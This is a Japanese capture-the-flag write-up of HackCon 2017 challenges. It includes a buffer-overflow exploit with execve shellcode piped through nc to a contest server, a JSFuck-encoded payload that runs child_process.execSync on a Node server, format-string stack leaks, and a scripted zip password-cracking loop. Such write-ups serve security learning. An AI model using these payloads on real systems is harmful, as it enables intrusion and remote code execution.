

チーム Harekaze で [HackCon 2017](http://hackcon.in/) に参加しました。最終的にチームで 881 点を獲得し、順位は得点 345 チーム中 8 位でした。うち、私は 18 問を解いて 780 点を入れました。

以下、解いた問題の write-up です。

## [Web 50] Noobcoder

与えられた URL にアクセスすると、ユーザ名とパスワードの入力できるフォームが表示されました。ソースを見るとこのフォームの送信先は `checker.php` と分かりました。

問題文によるとどうやら gedit で編集していたようなので、`checker.php~` にアクセスすると `checker.php` のソースが得られました。

```php
<html>
<head>
</head>
<body>
<?php
if ($_POST["username"] == $_POST["password"] && $_POST["password"] !== $_POST["username"])
    echo "congratulations the flag is d4rk{TODO}c0de";
else
    echo "nice try, but try again";
?>
</body>
</html>
```

ユーザ名に `0`、パスワードに `00` を入力するとフラグが得られました。

```
d4rk{l0l_g3dit_m4ster_roxx}c0de
```

## [Web 50] Magic

与えられた URL にアクセスすると、ユーザ名とパスワードの入力できるフォームが表示されました。

ヘッダを確認してみましょう。

```
$ curl -v http://defcon.org.in:6060/index.php
...
< Set-Cookie: 0=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 1=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 2=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 3=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 4=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 5=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 6=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 7=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 8=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 9=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 10=%5B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 11=%3E; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 12=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 13=%3E; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 14=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
< Set-Cookie: 15=%2B; expires=Thu, 01-Jan-1970 00:00:10 GMT; Max-Age=0; path=/
...
```

Cookie の値を集めると以下のような Brainf*ck のコードが出てきました。

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.--.--------------.+++++++++++++.----.-------------.++++++++++++.--------.<------------.<++.>>----.+.<+++++++++++.+++++++++++++.>+++++++++++++++++.---------------.++++.+++++++++++++++.<<.>>-------.<+++++++++++++++.>+++..++++.--------.+++.<+++.<++++++++++++++++++++++++++.<++++++++++++++++++++++.>++++++++++++++..>+.----.>------.+++++++.--------.<+++.>++++++++++++..-------.++.
```

これを実行すると `username: abERsdhw password: HHealskdwwpr` が出力されました。これを先程のフォームに入力するとフラグが得られました。

```
d4rk{c00k13s_4r3_fun}c0de
```

## [Web 100] Stolen Calculator

与えられた URL にアクセスすると電卓が表示されました。ソースを見ると以下のような処理がありました。

```javascript
     $("#buttonEqual").on("click", function(){     

                 
       
           audio.play();
         if(screen[0].length>=1 && flag==0)
             
             {
                 history[0]=history[0]+"=";
                  screen[0]=eval(screen[0]);
                  $("#data").html(eval(screen[0])); 
                  $("#history").html(history[0]);

                  charset = "[]{}()0123456789!@#$%^&*-+\\|/?<>,."
                  strrr = screen[0];

                  for( var i=0  ; i < expr.length ; i++ )
                  if( charset.indexOf(expr[i]) < 0 )
                  {
                        alert("You can only use mathamatical expressions ")
                  }

                  urll = "http://defcon.org.in:10300/" + encodeURIComponent( strrr );
                  $.get( urll , function(res){
                      $("#data").html( res )  
                  })

                // history[0]=history[0]+eval(screen[0]);
         $("#data").html(eval(screen[0])); 
                 $("#history").html(history[0]);
                 
                 z=14;
             }
        
         console.log(eval(screen[0]));
        //TODO: send history to log and eval there with cookie set
        //Check if every char in '[]{}()0123456789!@#$%^&*-+\\|/?<>,.'
        //Send person to history.php
        //give the flag with the logs
   });
```

`http://defcon.org.in:10300/` に計算式を投げているようです。

`http://defcon.org.in:10300/[` にアクセスすると以下のようなエラーが表示されました。

```
SyntaxError: Unexpected end of input
    at /bf.js:21:23
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
    at next (/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
    at /node_modules/express/lib/router/index.js:281:22
    at param (/node_modules/express/lib/router/index.js:354:14)
    at param (/node_modules/express/lib/router/index.js:365:14)
    at Function.process_params (/node_modules/express/lib/router/index.js:410:3)
    at next (/node_modules/express/lib/router/index.js:275:10)
```

サーバ側でも JavaScipt のコードとしてそのまま eval していそうです。

`[]{}()0123456789!@#$%^&*-+\\|/?<>,.` しか使えないようですが、[JSF*ck](http://www.jsfuck.com/) を通せば大丈夫そうです。`return this` を変換したものを投げてみると、`[object global]` と表示されました。

`''+process.mainModule.require('child_process').execSync('cat flag.txt')` を変換したものを投げるとフラグが得られました。

```
d4rk{jaVaScriPtFuck}c0de
```

## [Rev 50] Not Web

`ihatejs.js` という JavaScript のコードが与えられました。実行するとフラグが得られました。

```
$ node ihatejs.js
d4rk{ccjccpbsvrafrcatbpchjydiio}c0de
```

```
d4rk{ccjccpbsvrafrcatbpchjydiio}c0de
```

## [Rev 50] Keygen

`match_me` という x86_64 の ELF ファイルが与えられました。

`main` を調べると、入力を hex デコードし、それを ROT13 でエンコードした文字列と `firhfgferfibbqlkdfhh` を比較して、もし一致していれば `Match` が出力されるという処理を行っていることが分かりました。

`73766575737473726573766f6f64797871737575` を入力するとフラグが得られました。

```
d4rk{595c7f5b595a59587f595c55557e5f5e57595b5b}c0de
```

## [Rev 50] Keygen - 2

[Rev 50] Keygen で `Match` と出力される文字列を 10 個入力するという問題でした。以下のように後ろに改行文字を付けるとフラグが得られました。

```
73766575737473726573766f6f64797871737575
73766575737473726573766f6f647978717375750a
73766575737473726573766f6f647978717375750a0a
73766575737473726573766f6f647978717375750a0a0a
73766575737473726573766f6f647978717375750a0a0a0a
73766575737473726573766f6f647978717375750a0a0a0a0a 
73766575737473726573766f6f647978717375750a0a0a0a0a0a
73766575737473726573766f6f647978717375750a0a0a0a0a0a0a
73766575737473726573766f6f647978717375750a0a0a0a0a0a0a0a
73766575737473726573766f6f647978717375750a0a0a0a0a0a0a0a0a
```

```
d4rk{r0ck1ng_keyg3n_123}c0de
```

## [PWN 50] TooLazy!

nc コマンドで指定されたサーバに接続すると、以下のように出力されました。

```
eat sleep pwn repeat!
pwn > 
```

`%6$llx` を入力すると `4145527b6b723464` と出力されました。FSB があるようです。スタックを調べるとフラグが見つかりました。

```
eat sleep pwn repeat!
pwn > 
%6$llx.%7$llx.%8$llx.%9$llx.%10$llx
repeat > 
4145527b6b723464.4e494d5f594d5f44.a656430637d2144.400300.252e786c6c243625
eat
sleep
pwn > 
```

```
d4rk{READ_MY_MIND!}c0de
```

## [PWN 75] Go knock yourselves. Easy shell!

`pwn75` という x86_64 の ELF ファイルが与えられました。

試しに実行してみましょう。

```
$ ./pwn75 
Here you have it, "your pwn!"
>>> 
hoge
You are gonna spit at: 0x7ffc725c50e0


$ ./pwn75 
Here you have it, "your pwn!"
>>> 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are gonna spit at: 0x7ffcda715760


Segmentation fault
```

BOF ができそうですが、`main` を読んでみると `mangle` という関数によってユーザ入力がシャッフルされていることが分かりました。`mangle` の処理を調べて、`mangle` を通した結果が好きな順番になるような文字列を出力するスクリプトを書きましょう。

```python
import struct

with open('pwn75', 'rb') as f:
  s = f.read()

table = struct.unpack('<' + 'I' * 254, s[0x9a0:0x9a0+4*254])

def mangle(s):
  t = list(s)
  for i in range(0xfd + 1):
    t[i], t[table[i]] = t[table[i]], t[i]
  return ''.join(t)

def demangle(s):
  t = list(s)
  for i in range(0xfd, -1, -1):
    t[i], t[table[i]] = t[table[i]], t[i]
  return ''.join(t)

s = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA'
print demangle(s)
```

出力された文字列を投げると Segmentation fault になりました。リターンアドレスまでのオフセットを調べましょう。

```
...
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe288 ("(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA"...)
0008| 0x7fffffffe290 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%("...)
0016| 0x7fffffffe298 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%"...)
0024| 0x7fffffffe2a0 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA"...)
0032| 0x7fffffffe2a8 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA")
0040| 0x7fffffffe2b0 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA")
0048| 0x7fffffffe2b8 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA")
0056| 0x7fffffffe2c0 ("AJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040080e in vuln ()

(AADAA;A found at offset: 24
...
```

あとはシェルコードに飛ぶようにしてシェルを奪いましょう。

```python
import struct

with open('pwn75', 'rb') as f:
  s = f.read()

table = struct.unpack('<' + 'I' * 254, s[0x9a0:0x9a0+4*254])

def mangle(s):
  t = list(s)
  for i in range(0xfd + 1):
    t[i], t[table[i]] = t[table[i]], t[i]
  return ''.join(t)

def demangle(s):
  t = list(s)
  for i in range(0xfd, -1, -1):
    t[i], t[table[i]] = t[table[i]], t[i]
  return ''.join(t)

payload = ''
payload = 'A' * 24
payload += struct.pack('<Q', 0x7fffffffeb10 + 64)
payload += 'hri\x01\x01\x814$\x01\x01\x01\x011\xd2Rj\x08ZH\x01\xe2RH\x89\xe2jhH\xb8/bin///sPj;XH\x89\xe7H\x89\xd6\x99\x0f\x05'
payload += 'C' * (254 - len(payload))
print '''(python -c "print %r"; cat) | nc 139.59.13.232 2200''' % demangle(payload)
```

```
$ eval $(python exploit.py)
Here you have it, "your pwn!"
>>> 
You are gonna spit at: 0x7fffffffeb10


ls
:wq
Dockerfile
bin
boot
build.sh
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
pwn100
pwn100.c
root
run
sbin
srv
start.sh
start_con.sh
sys
tmp
usr
var
cat flag
d4rk{shellmangle}c0de
```

```
d4rk{shellmangle}c0de
```

## [Crypto 100] VizHash

`digest.png` という画像ファイルと、`hash.py` というスクリプトが与えられました。

`hash.py` は以下のような内容でした。

```python
# I was bored and high af and thought of making a visual hash function where instead of a digest we get a png as hash of a string 
# So I developed this algorithm to hash the flag. (Patent pending, don't even think of copying it)
# It is so secure that you need more computation to break this than to break a sha256 hash

import base64
import math
import hashlib
from PIL import Image

flag = "d4rk{sample_flag123}c0de"

def encode(s):
	return (''.join([ chr(ord(c)+4) for c in s[::-1] ]))

def base64encode(s):
	return base64.b64encode(s.encode("utf8")).decode("utf8")

b64_flag = base64encode(flag)

encrypted_flag = ""
temp_str = ""

for i in b64_flag:
	temp_str += i
	encrypted_flag += encode(temp_str)

print(encrypted_flag)

pixels_list = []

checksum = 0
for i in encrypted_flag:
	m = hashlib.md5()
	m.update(i)
	m = m.hexdigest()
	m = int(m, 16)
	checksum += m
	m = str(hex(m))
	for j in range(0, len(m)-3, 3):
		pixels_list.append((128 + ord(m[j])^ord(m[j+1]), 128 + ord(m[j+1])^ord(m[j+2]), 128 + ord(m[j+2])^ord(m[j+3])))

print(checksum)
while checksum>0:
	pixels_list.append(((checksum%256), ((checksum/256)%256), ((checksum/(256*256))%256)))
	checksum = checksum/(256**3)
	
image_out = Image.new("RGB",(int(math.ceil(math.sqrt(len(pixels_list)))),int(math.ceil(math.sqrt(len(pixels_list))))))
image_out.putdata(pixels_list)
image_out.save('digest.png')
```

以下のスクリプトを実行するとフラグが得られました。

```python
import hashlib
from PIL import Image

table = {}
for c in range(256):
  t = []
  m = str(hex(int(hashlib.md5(chr(c)).hexdigest(), 16)))

  for j in range(0, len(m) - 3, 3):
    t.extend((128 + ord(m[j])^ord(m[j+1]), 128 + ord(m[j+1])^ord(m[j+2]), 128 + ord(m[j+2])^ord(m[j+3])))
  table[tuple(t)] = chr(c)

im = Image.open('digest.png')
w, h = im.size
pix = im.load()

res = []

for y in range(h):
  for x in range(w):
    res.extend(pix[x, y])

encrypted_flag = ''

for x in range(0, len(res), 33):
  c = table.get(tuple(res[x:x+33]), None)
  if c is not None:
    encrypted_flag += c

print ''.join(chr(ord(c) - 4) for c in encrypted_flag)[-48:][::-1].decode('base64')
```

```
d4rk{no00000oo_not0x_myfaUltXXX}c0de
```

## [Steg 25] Standard Steg

`Secret.png` という画像ファイルと、この画像に文字列を埋め込むのに使われた `encrypt.py` というスクリプトが与えられました。

`encrypt.py` は以下のような内容でした。

```python
def asciiToBin(ascii):
	return ''.join(str(bin(ord(byte)))[2:].zfill(8) for byte in ascii)

def hide(img, data, outName):
	header, trailer = 2*"11001100",2*"0101010100000000"
	dataBin = header+asciiToBin(data)+trailer
	pixels, mode = list(img.getdata()), img.mode
	newPixels = []

	for i in range(len(dataBin)):
		newPixel = list(pixels[i])
		newPixel[i%len(mode)] = setLSB(newPixel[i%len(mode)], dataBin[i])
		newPixels.append(tuple(newPixel))

	newData = newPixels + pixels[len(newPixels):]

	img.putdata(newData)
	img.save(outName, "PNG")

def setLSB(target, value):
	binary = str(bin(target))[2:]
	if binary[-1] != value:
		binary = binary[:-1] + value
	return int(binary, 2)
```

以下のスクリプトを実行すると `Secret.png` に埋め込まれたフラグを得られました。

```python
from PIL import Image
im = Image.open('Secret.png')
res = ''
for i, d in enumerate(im.getdata()):
  res += str(d[i % 3] & 1)
res = hex(int(res, 2))
print res[res.index('cccc')+4:res.index('55005500')].decode('hex')
```

```
d4rk{345y_LSB}c0de
```

## [Steg 50] White

`final.png` という画像ファイルが与えられました。バイナリエディタで覗いてみると、IEND チャンクの後ろに `iVBO …` という感じの PNG ファイルをBase64 エンコードしたような文字列がくっついていました。

この文字列の展開を繰り返し行ってくれるスクリプトを書きましょう。

```python
import zlib

with open('final.png', 'rb') as f:
  s = f.read()

i = 0
while True:
  try:
    s = s[s.index('iVBO'):].decode('base64')
    with open('tmp/%02d.png' % i, 'wb') as f:
      f.write(s)
    i += 1
  except:
    break
```

`tmp/` 下に展開された画像を切り貼りするとフラグが得られました。



```
d4rk{1mag3_m4n1pul4t10n_F7W}c0d3
```

## [Misc 25] Forgot Password

`zipfile_500.zip` というパスワード付きの zip ファイルが与えられました。

rockyou.txt を辞書として John the Ripper に投げるとパスワードが分かりました。展開すると `zipfile_499.zip` という zip ファイルが出てきましたが、これもパスワード付きのようです。

パスワードのクラック -> zip の展開を繰り返してくれるスクリプトを書きましょう。

```python
import subprocess

for x in range(500, 0, -1):
  z = 'zipfile_%d.zip' % x
  j = 'zipfile_%d.john' % x
  res = subprocess.check_output(['zip2john', z])

  with open(j, 'w') as f:
    f.write(res)

  subprocess.call(['john', j, '--wordlist=/usr/share/dict/rockyou.txt'])
  res = subprocess.check_output(['john', '--show', j])
  subprocess.call(['unzip', '-P', res.split(':')[1], z])
```

実行すると `zipfile_0.zip` が出てきました。これを展開するとフラグが得られました。

```
d4rk{7h1s_w0uldve_t4k3n_s0m3_t1m3}c0de
```

## [Misc 75] Typing isn't fun

`finalaudio.wav` という音声ファイルが与えられました。聞いてみると DTMF っぽいので [Detect DTMF Tones](http://dialabc.com/sound/detect/index.html) に投げてみると、`444 88 9 33 999 3 44 55 5 7777 44 3 4 5 333 7777 44 66 2 555 5 55 3 55 333 222 444` を送信していると分かりました。

英字のトグル入力として読んでみるとフラグが得られました。

```
iuweydhkjshdgjfshnaljkdkfci
```

## [Bacche 5] ALL CAPS

以下のような文字列が与えられました。

```
OF EKBHMGUKZHJB, Z LWALMOMWMOGF EOHJTK OL Z DTMJGX GY TFEGXOFU AB NJOEJ WFOML GY HSZOFMTVM ZKT KTHSZETX NOMJ EOHJTKMTVM, ZEEGKXOFU MG Z YOVTX LBLMTD; MJT "WFOML" DZB AT LOFUST STMMTKL (MJT DGLM EGDDGF), HZOKL GY STMMTKL, MKOHSTML GY STMMTKL, DOVMWKTL GY MJT ZAGRT, ZFX LG YGKMJ. MJT KTETORTK XTEOHJTKL MJT MTVM AB HTKYGKDOFU MJT OFRTKLT LWALMOMWMOGF. MJZFQL YGK KTZXOFU MJZM, JTKT'L BGWK YSZU: X4KQ{MKB_YZEEJ3_OYMJOL_MGG_LODHTS}E0XT
```

単一換字式暗号っぽいので [quipqiup](https://www.quipqiup.com/) に投げると元の文章が得られました。

```
IN CRYPTOGRAPHY, A SUBSTITUTION CIPHER IS A METHOD OF ENCODING BY WHICH UNITS OF PLAINTEXT ARE REPLACED WITH CIPHERTEXT, ACCORDING TO A FIXED SYSTEM; THE "UNITS" MAY BE SINGLE LETTERS (THE MOST COMMON), PAIRS OF LETTERS, TRIPLETS OF LETTERS, MIXTURES OF THE ABOVE, AND SO FORTH. THE RECEIVER DECIPHERS THE TEXT BY PERFORMING THE INVERSE SUBSTITUTION. THANKS FOR READING THAT, HERE'S YOUR FLAG: D4RK{TRY_FACCH3_IFTHIS_TOO_SIMPEL}C0DE
```

```
D4RK{TRY_FACCH3_IFTHIS_TOO_SIMPEL}C0DE
```

## [Bacche 5] Caves

ヒエログリフで何か書かれている画像が与えられました。「ヒエログリフ アルファベット」でググって出てくる対応表を見ながら読むとフラグが得られました。

```
d4rk{egyptisbetterthanyou}c0de
```

## [Bacche 10] Numbers

`(361, 15, 0, 0, 0) (267, 77, 1020, 1020, 1020) (380, 272, 1020, 1020, 1020) (171, 340, 0, 0, 0) …` というような感じの非常に大きなテキストファイルが与えられました。

以下のスクリプトを実行して出てきた QR コードを読み込むとフラグが得られました。

```python
from PIL import Image

im = Image.new('1', (570, 570))
pix = im.load()

with open('tmp.txt', 'r') as f:
  s = f.read()

s = [[int(y) for y in x.split(', ')] for x in s[1:-1].split(') (')]

for x, y, r, g, b in s:
  if r == 1020:
    pix[x, y] = 0
  else:
    pix[x, y] = 1

im.show()
```

```
d4rk{qrc0d35_4r3_fun_w17h_p1l}c0de
```

## [Bacche 10] RSA - 1

以下のような文字列が与えられました。

```
p = 152571978722786084351886931023496370376798999987339944199021200531651275691099103449347349897964635706112525455731825020638894818859922778593149300143162720366876072994268633705232631614015865065113917174134807989294330527442191261958994565247945255072784239755770729665527959042883079517088277506164871850439

q = 147521976719041268733467288485176351894757998182920217874425681969830447338980333917821370916051260709883910633752027981630326988193070984505456700948150616796672915601007075205372397177359025857236701866904448906965019938049507857761886750656621746762474747080300831166523844026738913325930146507823506104359

c = 8511718779884002348933302329129034304748857434273552143349006561412761982574325566387289878631104742338583716487885551483795770878333568637517519439482152832740954108568568151340772337201643636336669393323584931481091714361927928549187423697803637825181374486997812604036706926194198296656150267412049091252088273904913718189248082391969963422192111264078757219427099935562601838047817410081362261577538573299114227343694888309834727224639741066786960337752762092049561527128427933146887521537659100047835461395832978920369260824158334744269055059394177455075510916989043073375102773439498560915413630238758363023648

e = 65537
```

RSA のようですが、p と q が与えられています。以下のスクリプトを実行するとフラグが得られました。

```python
import gmpy2

p = 152571978722786084351886931023496370376798999987339944199021200531651275691099103449347349897964635706112525455731825020638894818859922778593149300143162720366876072994268633705232631614015865065113917174134807989294330527442191261958994565247945255072784239755770729665527959042883079517088277506164871850439
q = 147521976719041268733467288485176351894757998182920217874425681969830447338980333917821370916051260709883910633752027981630326988193070984505456700948150616796672915601007075205372397177359025857236701866904448906965019938049507857761886750656621746762474747080300831166523844026738913325930146507823506104359
c = 8511718779884002348933302329129034304748857434273552143349006561412761982574325566387289878631104742338583716487885551483795770878333568637517519439482152832740954108568568151340772337201643636336669393323584931481091714361927928549187423697803637825181374486997812604036706926194198296656150267412049091252088273904913718189248082391969963422192111264078757219427099935562601838047817410081362261577538573299114227343694888309834727224639741066786960337752762092049561527128427933146887521537659100047835461395832978920369260824158334744269055059394177455075510916989043073375102773439498560915413630238758363023648
e = 65537

print hex(pow(c, gmpy2.invert(e, (p - 1) * (q - 1)), p * q))[2:].decode('hex')
```

```
$ python2 solve.py
d4rk{s1mpl3_rsa_n0t_th1s_34sy_next_time}c0de
```

```
d4rk{s1mpl3_rsa_n0t_th1s_34sy_next_time}c0de
```

## [Bacche 20] Xrrrr

hex エンコードされたテキストファイルが与えられました。デコードして `hex.bin` として保存し、[xortool](https://github.com/hellman/xortool) で `xortool result.bin` を実行すると以下のような結果が得られました。

```
$ xortool result.bin
The most probable key lengths:
   2:   11.8%
   6:   19.8%
   8:   9.2%
  12:   14.8%
  14:   6.9%
  18:   11.1%
  20:   5.3%
  24:   8.6%
  30:   6.9%
  36:   5.6%
Key-length can be 3*n
Key-length can be 4*n
Key-length can be 6*n
Most possible char is needed to guess the key!
```

`xortool -l 6 -c 20 result.bin` を実行するとフラグが得られました。

```
$ xortool -l 6 -c 20 result.bin
1 possible key(s) of length 6:
bharat
Found 1 plaintexts with 95.0%+ printable characters
See files filename-key.csv, filename-char_used-perc_printable.csv
$ cat xortool_out/0.out
... d4rk{Try_r34ding_mahabharata_s0met1me}c0de ...
```

```
d4rk{Try_r34ding_mahabharata_s0met1me}c0de
```

## [BONUS 5] Welcome

与えられた URL ([http://esya.iiitd.edu.in/](http://esya.iiitd.edu.in/)) にアクセスしてソースを眺めていると、フラグが見つかりました。

```html
                    <div class="col-sm-2">
                        <div class="card5">
                          <div class="A">
                          <div class="imgCover">
                          
                          </div>
                          <div class="card-block">
                            <p class="card-text">Codebreak60</p>
                              <!----The flag is d4rk{w3lc0m3_t0_35y4_2017}c0de---->
                          </div>
                          </div>
                        </div>
                    </div>
```

```
d4rk{w3lc0m3_t0_35y4_2017}c0de
```